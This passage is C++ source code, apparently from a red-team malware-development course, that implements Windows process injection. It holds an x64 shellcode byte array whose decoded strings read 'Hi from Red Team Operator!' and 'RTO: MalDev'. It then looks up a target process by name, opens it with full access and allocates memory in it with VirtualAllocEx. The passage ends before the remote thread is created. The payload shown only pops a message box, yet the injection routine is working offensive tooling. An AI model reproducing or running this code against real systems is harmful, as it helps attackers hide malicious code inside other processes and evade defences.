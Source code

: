 ```c++
	  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
	  0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
	  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75,
	  0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6,
	  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x3e, 0x41,
	  0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
	  0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
	  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
	  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
	  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x00, 0x00, 0x00,
	  0x00, 0x3e, 0x48, 0x8d, 0x95, 0x1a, 0x01, 0x00, 0x00, 0x3e, 0x4c, 0x8d,
	  0x85, 0x35, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
	  0x56, 0x07, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6,
	  0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c,
	  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
	  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x48, 0x69, 0x20, 0x66, 0x72,
	  0x6f, 0x6d, 0x20, 0x52, 0x65, 0x64, 0x20, 0x54, 0x65, 0x61, 0x6d, 0x20,
	  0x4f, 0x70, 0x65, 0x72, 0x61, 0x74, 0x6f, 0x72, 0x21, 0x00, 0x52, 0x54,
	  0x4f, 0x3a, 0x20, 0x4d, 0x61, 0x6c, 0x44, 0x65, 0x76, 0x00
	};

	unsigned int payload_len = sizeof(shellcode);

	/* Managing the handles to the thread (CreateRemoteThread) and process (OpenProcess) */
	HANDLE hThread = NULL;
	HANDLE hOpenProcess = NULL; // Remember to always initialize variables

	/* Getting the PID as the first argument */
	char* payload_ascii = argv[1];

	int size_needed = MultiByteToWideChar(CP_UTF8, 0, payload_ascii, -1, NULL, 0);
	wchar_t* procname_wide = new wchar_t[size_needed];
	MultiByteToWideChar(CP_UTF8, 0, argv[1], -1, procname_wide, size_needed);

	DWORD pid = findMyProc(procname_wide);

	/* Declaring some variables that will store memaddresses */
	LPVOID lpBufferAddress = NULL; // Pointer to void to store the address of the reserved buffer
	DWORD lpflOldProtect = NULL; 
	SIZE_T lpNumberOfBytesWritten = NULL;

	// Get a handle to the process ID
	printf("Executing OpenProcess to get a handle of process with PID (%ld)\n", pid);
	hOpenProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);

	// If the function fails, the return value is NULL.
	if (hOpenProcess == NULL) {
		printf("Could not get a handle to PID (%ld). Error code %ld", pid, GetLastError());
		return EXIT_FAILURE;
	}

	printf("Got a handle to PID (%ld). Address of handle: 0x%p\n", pid, hOpenProcess); // With %p we get the memaddress of the handle

	lpBufferAddress = VirtualAllocEx(hOpenProcess, NULL, payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE); // We reserve AND commit. For that, use |
	// Remember closing the handle with CloseHandle once the handle is used.
	if (lpBufferAddress == NULL) {
		printf("Memory could not be allocated. Exiting...");
		return EXIT_FAILURE;
	}

	printf("Got a memory zone starting at 0x%p\n", lpBufferAddress);
```